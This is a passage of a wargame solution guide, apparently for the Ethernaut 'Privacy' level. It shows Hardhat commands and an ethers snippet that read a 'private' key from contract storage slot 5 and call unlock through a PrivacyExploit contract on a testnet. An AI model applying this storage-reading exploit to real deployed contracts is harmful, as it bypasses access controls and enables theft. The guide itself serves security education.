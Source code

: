 The script will:
1. Check if the contract is locked
2. Read the data[2] value from storage slot 5
3. Convert it to bytes16 format
4. Call the unlock function with the extracted key
5. Verify the contract is now unlocked

### Option 2: Using the PrivacyExploit Contract

Alternatively, you can use a contract-based approach:

#### 1. Deploy the Privacy Contract

If you're testing locally, deploy the Privacy contract first:

```shell
npx hardhat deploy --tags privacy
```

This will generate random data for the contract and print it to the console.

#### 2. Deploy the PrivacyExploit Contract

Deploy the PrivacyExploit contract targeting the Privacy contract:

```shell
npx hardhat deploy --tags privacy-solution
```

Or with a specific Privacy contract address:

```shell
TARGET_ADDRESS=0xYourPrivacyAddress npx hardhat deploy --tags privacy-solution --network sepolia
```

#### 3. Read the Storage Data

To read the storage data at slot 5, you can either:

1. Use the value from the deployment output if you deployed the Privacy contract yourself
2. Read it directly from the blockchain:

```javascript
const storageData = await ethers.provider.getStorage(privacyAddress, 5);
```

#### 4. Execute the Exploit

Run the provided script to execute the attack:

```shell
EXPLOIT_ADDRESS=0xYourExploitAddress TARGET_ADDRESS=0xTargetAddress DATA_SLOT_VALUE=0xYourStorageValue npx hardhat run scripts/level-12-privacy/execute-privacy-exploit.ts --network sepolia
```

Parameters:
- `EXPLOIT_ADDRESS`: Required - the address of your deployed PrivacyExploit contract
- `TARGET_ADDRESS`: Optional - will use the target address stored in the exploit contract if not provided
- `DATA_SLOT_VALUE`: Optional - if provided, will use this value as the storage data; otherwise, reads from the blockchain
